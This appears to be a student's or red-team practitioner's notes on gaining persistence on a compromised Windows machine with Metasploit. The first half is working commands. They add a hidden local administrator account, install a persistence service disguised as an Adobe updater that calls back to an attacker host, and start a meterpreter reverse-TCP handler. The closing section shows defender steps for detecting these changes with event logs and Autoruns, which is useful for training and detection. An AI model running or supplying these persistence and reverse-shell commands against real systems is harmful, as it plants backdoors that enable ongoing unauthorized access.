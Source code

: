 # Persistence with Metasploit Notes

Background, we already have access to a machine with MSF, these steps are about persistence not getting a shell

## Add local administrator user

```
execute -if whoami
execute -if "net user /add assetmgt Password1"
execute -if "net localgroup administrators /add assetmgt"
execute -if "net user"
execute -if "net localgroup administrators"
```

## Persistent Service

```
background
search type:exploit persist service
use exploit/windows/local/persistence_service
info
sessions
set session 1
set remote_exe_name AutoUpdate.exe
set service_name AdobeUpdate
set service_description "Adobe Update Client"
set lhost 10.10.75.1
exploit
```

now establish the callback handler

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
exploit
```


## Defender investigation of above

### Local User analysis

some options to detect local user creation, iterrogating the win event logs

```
Get-LocalUser
Get-WinEvent -FilterHashtable @{ Logname='Security'; ID=4720 } | Select-Object -First 1 | Format-List -property timecreated,message
```

### Autoruns

- Use sysinternals and right-click Autruns64.exe then select run as administrator.
- Accept EULA
- Click Services tab to focus on ASEP entries, find ones that are highlighted red (exe's with no publisher)
- Scroll ot the right to see Publisher, Image Path and Timestamp in the autoruns window (we notice one where the the exe is running in C:\Windows\Temp)
